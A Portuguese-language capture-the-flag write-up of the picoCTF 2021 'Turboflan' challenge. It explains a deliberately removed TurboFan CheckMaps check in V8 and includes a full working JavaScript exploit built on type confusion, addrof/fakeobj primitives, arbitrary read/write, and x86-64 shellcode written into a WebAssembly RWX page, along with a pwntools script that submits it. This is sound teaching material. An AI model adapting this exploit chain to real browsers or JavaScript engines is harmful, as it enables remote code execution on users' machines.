

# Turboflan | picoCTF 2021 (CyLab Academy)

`pwn` `browser` `v8` `turbofan` `type-confusion` `jit` `wasm-rwx`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2021 |
| **Plataforma (hoje)** | CyLab Academy (`cylabacademy.net`) |
| **Categoria** | Binary Exploitation |
| **Dificuldade / pontos** | Hard |
| **Autor do desafio** | wparks |
| **Resolvido / revalidado em** | 2026-11-02 |

## TL;DR

O desafio dá um `d8` (shell do V8) com um patch que **comenta a checagem de mapa** (`CheckMaps`) no compilador TurboFan. Com isso, código JIT otimizado para um array de `double` continua rodando quando o objeto é, na real, um array de ponteiros: um type confusion. A partir dele construo `addrof`/`fakeobj`, forjo um array de `double` falso com `elements` controlado (leitura/escrita arbitrária), vazo a página RWX de um módulo WebAssembly, escrevo um shellcode de `open`/`read`/`write` lá e o executo. O shellcode imprime `flag.txt`.

> [!IMPORTANT]
> **Ideia-chave:** remover o `CheckMaps` deixa o código otimizado confiar no "tipo" que ele assumiu na compilação. Se eu trocar o mapa do objeto depois, o JIT lê/escreve com o layout errado, e isso vira leitura/escrita arbitrária.

## Enunciado

> A Radiant Gourmet Flan told our young Turboflan hero to stop rushing and slow down. Has he listened?

**Dicas oficiais:**

> 1. There are a bunch of public writeups on v8 exploitation. Find the relevant ones.
> 2. There likely are many ways to solve this problem.

**Arquivos:** `d8`, `source.tar.gz` (o `patch` aplicado ao V8 e a `REVISION`), `server.py`. **Instância:** serviço que recebe um script JS, roda no `./d8` e devolve a saída (timeout de 20s).

## Dicas progressivas

<details><summary>Dica 1</summary>Leia o <code>patch</code>. Algo foi removido do compilador TurboFan.</details>
<details><summary>Dica 2</summary>O <code>DeoptimizeIfNot(kWrongMap, ...)</code> do <code>LowerCheckMaps</code> foi comentado: o código otimizado não revalida mais o mapa do objeto.</details>
<details><summary>Dica 3</summary>Type confusion entre array de double e array de objetos, depois <code>addrof</code>/<code>fakeobj</code>, depois array falso para R/W arbitrário, depois sobrescrever a página RWX de um <code>WebAssembly.Instance</code> com shellcode.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, com `python3` (`pwntools` para falar com o serviço) e o `d8` fornecido para testar localmente.
- **Arquivos:** `d8`, `server.py`, `scripts/exploit.js`, `scripts/turbofan.patch` na raiz da pasta do desafio.

> [!WARNING]
> As constantes do exploit (`DMAP`, `EMPTY`, offsets) são específicas desta build do `d8`. O `d8` desta instância tem o **mesmo `sha256`** do que eu já tinha, então os valores abaixo valem; sempre valide rodando `./d8 scripts/exploit.js` localmente (com um `flag.txt` de teste) antes do remoto.

Teste local:

***INSERIR no terminal: Kali (atacante)

```bash
echo "flag_de_teste" > flag.txt && ./d8 scripts/exploit.js
```

## Resolução

### 1. O bug no patch

O `source/patch` (cópia em [`scripts/turbofan.patch`](scripts/turbofan.patch)) mexe em `LowerCheckMaps`, em `effect-control-linearizer.cc`:

```diff
       if (i == map_count - 1) {
-        __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, p.feedback(), check,
-                           frame_state, IsSafetyCheck::kCriticalSafetyCheck);
+        // This makes me slow down! Can't have! Gotta go fast!!
+        // __ DeoptimizeIfNot(DeoptimizeReason::kWrongMap, ...);
```

`CheckMaps` é o nó que, no código otimizado, revalida que o objeto ainda tem o mapa (o "tipo"/shape) assumido na compilação; se não tiver, faz *deopt*. Comentando isso, o código JIT passa a confiar cegamente no mapa que viu ao otimizar.

> [!TIP]
> **Conceito: `Map` e type confusion no V8.** Todo objeto JS tem um `Map` (hidden class) que descreve seu layout e o tipo dos elementos (ex.: `PACKED_DOUBLE_ELEMENTS` vs `PACKED_ELEMENTS`). O TurboFan especializa o código pelo mapa visto e protege com `CheckMaps`. Sem essa checagem, se eu otimizo uma função para um array de `double` e depois a chamo com um array de objetos (mesmo "formato"), o código lê ponteiros como se fossem `double` e vice-versa: a base de `addrof`/`fakeobj`. Referência: [V8: Maps/Hidden Classes](https://v8.dev/blog/fast-properties).

A `REVISION` fixa o commit do V8 (`506aeae9...`), que define os offsets e constantes usados.

### 2. `addrof` e `fakeobj`

Otimizo duas funções (`rd` para array de `double`, `ro` para array de objetos) chamando-as 200000 vezes para o TurboFan compilar. Depois, por causa do `CheckMaps` ausente, uso `rd` sobre um array de objetos para ler um ponteiro como `double` (`addrof`) e `ro` sobre um array de `double` para transformar um valor em ponteiro de objeto (`fakeobj`).

### 3. Array falso = leitura/escrita arbitrária

Com `addrof`/`fakeobj` monto um array de `double` falso cujo ponteiro de `elements` eu controlo. Escrevendo um mapa de `double` (`DMAP`) e um comprimento no corpo de um array real (`fs`), e apontando o array falso para `0x20` antes dele, movo o ponteiro de `elements` para qualquer endereço e leio/escrevo 64 bits ali. As constantes desta build são `DMAP=0x082439f1` (mapa de `PACKED_DOUBLE_ELEMENTS`) e `EMPTY=0x0804222d` (`empty_fixed_array`).

### 4. Shellcode na página RWX do WebAssembly

O V8 aloca uma página **RWX** para o código JIT de um módulo WebAssembly. Crio um módulo mínimo, vazo o ponteiro dessa página pelo `WebAssembly.Instance` (`wi + 0x68`), aponto o backing store de um `DataView` para lá (R/W arbitrário via `rwab + 0x14`), escrevo o shellcode e chamo a função exportada. O shellcode (x86-64) faz `open("flag.txt")`, `read` e `write(1, ...)` e sai: ele mesmo imprime a flag, já que o servidor só devolve o stdout do `d8` (não há shell interativo).

### 5. O exploit completo

#### `scripts/exploit.js`

```js
// Turboflan (V8/TurboFan) - exploit completo.
// O patch comentou o CheckMaps em LowerCheckMaps, então o código JIT otimizado
// confia no "tipo" (Map) que viu na compilação. Isso dá type confusion entre
// array de double e array de objetos, do qual construo addrof/fakeobj, depois
// leitura/escrita arbitrária via um array de double falso, e por fim escrevo
// shellcode na página RWX de um WebAssembly.Instance.

// --- conversão float <-> inteiro de 64 bits (type punning) ---
let cb=new ArrayBuffer(8);
let f64=new Float64Array(cb);
let b64=new BigUint64Array(cb);

function ftoi(x){f64[0]=x;return b64[0];}   // double -> u64
function itof(x){b64[0]=x;return f64[0];}   // u64 -> double
function lo(x){return x&0xffffffffn;}        // 32 bits baixos (ponteiro comprimido)
function hx(x){return "0x"+x.toString(16);}

// Funções que o TurboFan vai otimizar. Sem CheckMaps, rd (otimizada para array
// de double) e ro (para array de objetos) passam a ler a mesma memória com o
// layout errado quando chamadas com o array do "tipo trocado".
function rd(arr){return arr[0];}
function ro(arr){return arr[0];}

let da=[13.37,13.38,13.39];   // array de double
let oa=[{a:1},{b:2},{c:3}];   // array de objetos

// Aquece rd/ro para o TurboFan compilá-las e especializar pelo Map visto.
for(let i=0;i<200000;i++){rd(da);}
for(let i=0;i<200000;i++){ro(oa);}

// addrof: lê o ponteiro de um objeto como se fosse double -> vaza o endereço.
function addrof(o){
  let a=[o,{},{}];
  return lo(ftoi(rd(a)));
}

let fa=[13.37,13.38,13.39];

// fakeobj: escreve um endereço como double e o lê como ponteiro de objeto.
function fakeobj(a){
  fa[0]=itof(a);
  return ro(fa);
}

// Constantes desta build do d8 (REVISION 506aeae9..., sem pointer compression nos
// valores aqui): Map de PACKED_DOUBLE_ELEMENTS e o empty_fixed_array.
const DMAP=0x082439f1n;   // mapa de array de double para esta build
const EMPTY=0x0804222dn;  // empty_fixed_array
const AB_BS=0x14;         // offset do backing store dentro de um ArrayBuffer

// fs: array de double real. Forjo, logo antes dele, um "array de double" falso
// cujo ponteiro de elements eu controlo -> leitura/escrita arbitrária.
let fs=[1.1,2.2,3.3,4.4];
let fs_addr=addrof(fs);
let fake_addr=fs_addr-0x20n;

fs[0]=itof((EMPTY<<32n)|DMAP);   // map + elements forjados no corpo de fs
fs[1]=itof((0x200n<<32n)|EMPTY);

let fake=fakeobj(fake_addr);     // o array falso aponta para 0x20 antes de fs

// Move o ponteiro de elements do array falso para um endereço arbitrário.
function setel(raw){
  let e=lo(raw-7n);
  fs[1]=itof((0x200n<<32n)|e);
}

function r64raw(raw){ setel(raw); return ftoi(fake[0]); }      // leitura de 64 bits
function w64raw(raw,v){ setel(raw); fake[0]=itof(v); }         // escrita de 64 bits

function raw(a){return a-1n;}                                   // tira a tag de ponteiro
function r64off(o,off){return r64raw(raw(o)+BigInt(off));}
function w64off(o,off,v){w64raw(raw(o)+BigInt(off),v);}

// ArrayBuffer cujo backing store eu vou redirecionar para a página RWX.
let rwab=new ArrayBuffer(0x1000);
let rwdv=new DataView(rwab);
let rwab_addr=addrof(rwab);

function setrw(a){ w64off(rwab_addr,AB_BS,a); }   // backing store -> endereço a

// Módulo WebAssembly mínimo: o V8 aloca uma página RWX para o código JIT dele.
let wasm_code=new Uint8Array([
0x00,0x61,0x73,0x6d,
0x01,0x00,0x00,0x00,
0x01,0x05,0x01,0x60,0x00,0x01,0x7f,
0x03,0x02,0x01,0x00,
0x07,0x08,0x01,0x04,
0x6d,0x61,0x69,0x6e,
0x00,0x00,
0x0a,0x06,0x01,0x04,
0x00,0x41,0x2a,0x0b
]);

let wm=new WebAssembly.Module(wasm_code);
let wi=new WebAssembly.Instance(wm);
let wf=wi.exports.main;

let wi_addr=addrof(wi);
let rwx=r64off(wi_addr,0x68);   // ponteiro da página RWX dentro da Instance

print("wi="+hx(wi_addr));
print("rwx="+hx(rwx));

// Shellcode x86-64: open("flag.txt") / read / write(1, ...) / exit.
let sc=[
0x48,0x31,0xc0,
0x48,0xbb,0x66,0x6c,0x61,0x67,0x2e,0x74,0x78,0x74,
0x50,
0x53,
0x48,0x89,0xe7,
0x48,0x31,0xf6,
0x48,0x31,0xd2,
0xb0,0x02,
0x0f,0x05,
0x48,0x89,0xc7,
0x48,0x89,0xe6,
0x48,0x31,0xd2,
0xb2,0x80,
0x48,0x31,0xc0,
0x0f,0x05,
0x48,0x89,0xc2,
0x48,0xc7,0xc7,0x01,0x00,0x00,0x00,
0x48,0xc7,0xc0,0x01,0x00,0x00,0x00,
0x0f,0x05,
0x48,0xc7,0xc0,0xe7,0x00,0x00,0x00,
0x48,0x31,0xff,
0x0f,0x05
];

setrw(rwx);   // aponta o DataView para a página RWX

for(let i=0;i<sc.length;i++){   // grava o shellcode na página executável
  rwdv.setUint8(i,sc[i]);
}

wf();   // chama a função WASM, agora sobrescrita pelo shellcode -> imprime a flag
```

### 6. Enviando para o serviço

O `server.py` pede o tamanho do script e então o conteúdo, roda no `d8` e devolve `Stdout`/`Stderr`.

***INSERIR no terminal: Kali (atacante)

```bash
python3 - <<'PY'
from pwn import *
from pathlib import Path
data = Path("scripts/exploit.js").read_bytes()
io = remote("xebec.cylabacademy.net", 38758)   # troque host/porta pela sua instância
io.sendlineafter(b"Provide size. Must be < 5k:", str(len(data)).encode())
io.sendlineafter(b"Provide script please!!", data)
print(io.recvall(timeout=25).decode(errors="replace"))
PY
```

```text
Run Complete
Stdout b'wi=0x8212d99\nrwx=0x129fd322c000\nacademy{Good_job!_Now_go_find_a_real_v8_cve!_823fab57078XXXXX}\n'
Stderr b''
```

A última linha do `Stdout` é a flag impressa pelo shellcode; `rwx` é a página de código do WASM que ele sobrescreveu.

## Cadeia de ataque



## Por que funciona

O `CheckMaps` é a garantia de que o código otimizado só roda com o tipo que ele assumiu. Removê-lo quebra exatamente essa suposição: o JIT interpreta a mesma memória ora como `double`, ora como ponteiro, dando `addrof`/`fakeobj`. Com essas duas primitivas eu forjo um objeto array cujo `elements` aponta para onde eu quiser, o que é leitura/escrita arbitrária de 64 bits. A partir daí, a página RWX do WebAssembly é um alvo clássico: é executável e gravável, então escrevo shellcode e desvio a execução para ele. Os endereços fixos (`DMAP`, `EMPTY`, offsets `+0x68`/`+0x14`) valem porque a `REVISION` fixa a build do V8.

## Remediação

- Não é um bug "real": o patch introduziu a falha de propósito removendo o `CheckMaps`. A correção é manter a revalidação de mapa no código otimizado (o `DeoptimizeIfNot(kWrongMap, ...)`).
- Em geral: páginas de código JIT/WASM não deveriam ser RW e X ao mesmo tempo (W^X), o que quebra o passo final do shellcode.

## Lições e padrões

- **Sinais para reconhecer:** num desafio de V8 com patch, o diff quase sempre aponta o bug. `CheckMaps`/`CheckBounds` removidos = type confusion / OOB.
- **Da próxima vez eu tentaria primeiro:** ler o `patch` e a `REVISION` antes de tudo, e reaproveitar a estrutura addrof, fakeobj, array falso, WASM RWX dos writeups públicos de v8.
- **Onde perdi tempo:** acertar a constante `DMAP` para a build exata. Um valor de `Map` errado (ex.: de outra build) faz o `d8` dar `SEGV` no acesso ao array falso; rodar `./d8 exploit.js` localmente mostra isso na hora.

## Referências

- [V8: Fast properties / Maps](https://v8.dev/blog/fast-properties)
- [Exploiting TurboFan `CheckMaps` (writeups públicos de v8)](https://mdsec.co.uk/2019/08/introduction-to-v8-exploitation/)
- picoCTF 2021, Turboflan (inspirado no problema de v8 do DownUnderCTF 2020)

## Flag

```text
academy{Good_job!_Now_go_find_a_real_v8_cve!_823fab57078XXXXX}
```
